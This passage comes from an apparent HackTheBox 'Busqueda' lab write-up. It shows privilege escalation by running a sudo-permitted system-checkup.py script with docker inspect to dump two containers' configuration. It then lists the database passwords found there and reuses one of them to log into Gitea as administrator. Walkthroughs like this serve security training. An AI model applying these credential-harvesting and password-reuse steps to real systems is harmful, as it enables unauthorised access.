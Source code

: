 - Execute to check 1st docker container
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' f84a5b33fb5a
```
![image](https://github.com/popyue/HackTheBox/blob/main/machine/Busqueda/BusquedaImage/Privilege%20-%20Execute%20docker%20inspect%20on%20docker%20ID%20through%20system-checkup.png)

- Find the following password 
```
MYSQL_ROOT_PASSWORD = jI86kGUuj87guWr3RyF
MYSQL USER = gitea
MYSSQL_PASSWORD = yuiu1hoiu4i5ho1uh
```
- Execute to check 2nd docker container
```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e
```
![image](https://github.com/popyue/HackTheBox/blob/main/machine/Busqueda/BusquedaImage/Privilege%20-%20Execute%20docker%20inspect%20on%20docker%20ID%20through%20system-checkup%202.png)

- Find the following password 
```
GITEA_database_NAME = gitea
GITEA_database_PASSWD = yuiu1hoiu4i5ho1uh
```
- Try different combination to login gitea as administrator 
```
1. administrator / yuiu1hoiu4i5ho1uh
2. administrator / jI86kGUuj87guWr3RyF
```
- The 1st one will success